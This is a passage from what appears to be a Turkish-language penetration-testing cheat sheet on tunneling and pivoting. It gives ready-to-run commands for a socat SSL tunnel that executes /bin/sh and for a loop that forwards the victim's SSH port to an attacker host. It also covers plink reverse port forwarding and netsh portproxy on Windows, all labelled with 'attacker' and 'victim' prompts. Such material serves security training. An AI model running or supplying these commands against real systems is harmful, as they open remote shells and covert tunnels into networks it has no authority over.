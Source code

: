 ### SSL Socat Tüneli

**/bin/sh konsolu**

Her iki tarafta da sertifikalar oluşturun: İstemci ve Sunucu
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Remote Port2Port

Yerel SSH portunu (22) saldırgan ana bilgisayarın 443 portuna bağlayın
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

Bu, bir konsol PuTTY versiyonuna benzer (seçenekler, bir ssh istemcisine çok benzer).

Bu ikili dosya kurban üzerinde çalıştırılacağından ve bir ssh istemcisi olduğundan, ters bağlantı kurabilmemiz için ssh hizmetimizi ve portumuzu açmamız gerekiyor. Ardından, yalnızca yerel olarak erişilebilir bir portu makinemizdeki bir porta yönlendirmek için:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh

### Port2Port

Herhangi bir port için yerel yönetici olmanız gerekir.
```bash
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
# Example:
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.10.10 connectport=4444
# Check the port forward was created:
netsh interface portproxy show v4tov4
# Delete port forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```
## SocksOverRDP & Proxifier
